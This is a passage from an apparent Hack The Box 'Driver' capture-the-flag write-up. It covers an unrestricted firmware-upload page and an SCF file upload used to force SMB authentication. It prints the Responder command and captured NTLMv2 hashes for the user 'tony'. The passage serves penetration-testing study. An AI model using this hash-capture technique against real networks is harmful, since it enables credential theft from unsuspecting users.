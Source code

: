 Looking at the ```Firmware Updates``` hyperlink, we are redirected to http://driver.htb/fw_up.php where we are able to upload a file. 

![Uploading file](https://github.com/joelczk/writeups/blob/main/HTB/Images/Driver/file_upload.png)

We realize that the site allows us to upload files of any extension, but we are unable to exploit it furthur as we are unable to find the file path that the file is being saved to. This is a dead end. We will continue to explore other possible file uploads exploits.

## Exploit
### SCF File Upload exploit
Since we know that port 445 is open, this would mean that there is an SMB service that is running for this machine. Looking at the file upload site, we can guess that once we upload a file, the file will be placed on a directory in the SMB server.

Knowing this, we can try to upload an SCF file via the file upload endpoint to obtain the password hash. Using the tutorial from [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/), we can craft an exploit file that can allow us to capture the password hash. 

![Uploading exploit.scf file](https://github.com/joelczk/writeups/blob/main/HTB/Images/Driver/exploit_scf.png)

Afterwards, we will start the responder on our local machine to capture the password hash that is being used

```
┌──(kali㉿kali)-[~]
└─$ sudo responder -wrf --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:bb424bbcb4593421:11CD2C340B0572A5A9BC3F0EAD0A2A79:0101000000000000BB566F4FF961D8010926EA0A9C3A602400000000020000000000000000000000                                       
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:dc0cf3c34d14b9f3:6B796EB56F1C6971947848BEF7A25B8D:01010000000000006394D250F961D8010EB88800F3B07E9200000000020000000000000000000000 
```